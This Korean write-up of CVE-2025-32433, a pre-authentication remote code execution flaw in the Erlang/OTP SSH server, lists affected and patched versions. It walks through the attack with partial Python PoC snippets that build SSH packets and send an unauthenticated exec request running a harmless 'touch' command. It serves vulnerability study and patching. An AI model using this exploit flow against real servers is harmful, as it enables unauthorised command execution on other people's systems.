

## URL

- [https://nvd.nist.gov/vuln/detail/CVE-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433)
- [https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce](https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce)

## Target

- OTP 25 ≤ 25.3.2.19
- OTP 26 ≤ 26.2.5.10
- OTP 27 ≤ 27.3.2

## Explain

Erlang OTP는 Open Telecom Platform의 약자로, Erlang을 기반으로 실시간 서버나 메시징 시스템을 효율적으로 개발할 수 있도록 다양한 기능을 제공하는 플랫폼입니다.

해당 취약점은 Erlang/OTP의 SSH 서버 모듈에서 발생한 Pre-auth RCE(Remote Code Execution) 취약점으로, 인증 절차 이전에 SSH 메시지를 잘못 처리하여 인증 없이 원격에서 임의 코드를 실행할 수 있습니다.

이 취약점으로 인해 공격자는 SSH 연결 시, 인증 이후에만 전송되어야 하는 `SSH_MSG-CHANNEL_OPEN`(message number 90)과 `SSH_MSG_CHANNEL_REQUEST`(message number 98) 메시지를 인증 없이 전송할 수 있습니다. `SSH_MSG-CHANNEL_OPEN` 메시지는 사용자가 인증을 완료한 후 세션 채널을 열기 위해 사용되며, `SSH_MSG_CHANNEL_REQUEST`는 열린 채널을 통해 명령 실행 등을 요청할 때 사용됩니다.

SSH 프로토콜 명세([RFC 4254](https://datatracker.ietf.org/doc/html/rfc4254))에 따르면 이 메시지들은 인증 이후에만 허용되어야 하고, 이르게 전송된 메시지는 세션 종료로 처리해야 합니다. 하지만 취약한 버전의 Erlang/OTP에서 SSH 데몬이 이 규칙을 적용하지 않아, 공격자가 인증 없이도 세션 채널을 열고, exec 요청을 보낼 수 있습니다.

### Attack Flow

아래는 공개된 PoC 코드를 바탕으로 시뮬레이션한 공격 흐름입니다.

1. 클라이언트와 서버가 SSH 세션을 시작할 때 서로의 버전 정보를 교환하여 프로토콜 호환성을 확인합니다. 예를 들어 클라이언트는 SSH-2.0-OpenSSH_8.9 문자열을 서버와 교환합니다.

```python
s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")
banner = s.recv(1024)
```

2. 클라이언트(공격자)는 SSH_MSG_KEXINIT 패킷을 전송하여 키 교환 과정을 시작합니다. 이 메시지에는 키 교환 방식, 암호화 알고리즘, 압축 옵션 등의 목록이 포함됩니다.

```python
def build_kexinit():
    cookie = b"\x00" * 16

    def name_list(l):
        return string_payload(",".join(l))

    # Match server-supported algorithms from the log
    return (
        b"\x14"
        + cookie
        + name_list(
            [
                "curve25519-sha256",
                "ecdh-sha2-nistp256",
                "diffie-hellman-group-exchange-sha256",
                "diffie-hellman-group14-sha256",
            ]
        )  # kex algorithms
        + name_list(["rsa-sha2-256", "rsa-sha2-512"])  # host key algorithms
        + name_list(["aes128-ctr"]) * 2  # encryption client->server, server->client
        + name_list(["hmac-sha1"]) * 2  # MAC algorithms
        + name_list(["none"]) * 2  # compression
        + name_list([]) * 2  # languages
        + b"\x00"
        + struct.pack(">I", 0)  # first_kex_packet_follows, reserved
    )
    
 ...
 
kex_packet = build_kexinit()
s.sendall(pad_packet(kex_packet))
```

3. 초기 키 교환이 끝나고, 공격자는 SSH_MSG_CHANNEL_OPEN 메시지를 통해 세션 채널 생성을 요청합니다. 원래 이 요청은 사용자 인증이 끝난 후에만 가능합니다.

```python
def build_channel_open(channel_id=0):
    return (
        b"\x5a"  # SSH_MSG_CHANNEL_OPEN
        + string_payload("session")
        + struct.pack(">I", channel_id)  # sender channel ID
        + struct.pack(">I", 0x68000)  # initial window size
        + struct.pack(">I", 0x10000)  # max packet size
    )

...

chan_open = build_channel_open()
s.sendall(pad_packet(chan_open))
```

하지만 CVE-2025-32433 취약점이 있는 경우 서버는 이 요청을 인증 없이 수락합니다. 따라서 공격자는 인증되지 않은 상태에서도 채널을 열 수 있습니다.

4. 공격자는 SSH_MSG_CHANNEL_REQUEST 메시지를 전송해, 열린 채널을 통해 명령을 실행하도록 요청합니다. 일반적으로 이 메시지는 인증된 세션 내에서 명령을 실행하기 위해 사용됩니다.

```python
chan_req = build_channel_request(
    command='os:cmd("touch /tmp/test").'
)
s.sendall(pad_packet(chan_req))
```

해당 취약점에서는 인증이 되지 않더라도 메시지를 수락합니다. 따라서 "exec" 페이로드가 포함된 요청이 허용될 수 있고, 공격자는 원격에서 임의의 쉘 명령을 실행할 수 있습니다.



해당 취약점은 OTP 27.3.3, 26.2.5.11, 25.3.2.20 이상 버전에서 패치되었습니다.

## Reference

[https://www.sonicwall.com/blog/pre-auth-rce-alert-critical-ssh-flaw-in-erlang-otp-cve-2025-32433-](https://www.sonicwall.com/blog/pre-auth-rce-alert-critical-ssh-flaw-in-erlang-otp-cve-2025-32433-)

[https://github.com/ProDefense/CVE-2025-32433](https://github.com/ProDefense/CVE-2025-32433)